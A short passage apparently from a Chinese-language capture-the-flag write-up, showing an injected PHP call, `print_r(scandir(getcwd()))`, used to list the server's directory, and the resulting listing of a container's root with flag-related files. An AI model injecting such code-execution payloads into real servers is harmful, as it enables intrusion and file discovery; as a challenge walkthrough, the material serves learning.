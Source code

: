 然后`print_r(scandir(getcwd()));`扫一下目录

```
Array
(
    [0] => .
    [1] => ..
    [2] => .dockerenv
    [3] => 3b8cf4731c36d20776c76e20f9c774c7.php
    [4] => Zmw0Z2dnZ2dnZ2dnZ2dnCg
    [5] => bin
    [6] => boot
    [7] => dev
    [8] => etc
    [9] => flag
    [10] => home
    [11] => index.php
    [12] => lib
    [13] => lib64
    [14] => media
    [15] => mnt
    [16] => opt
    [17] => proc
    [18] => root
    [19] => run
    [20] => sbin
    [21] => srv
    [22] => start.sh
    [23] => sys
    [24] => tmp
    [25] => usr
    [26] => var
    [27] => very_g00d_Y0u_got_it.php
)
```
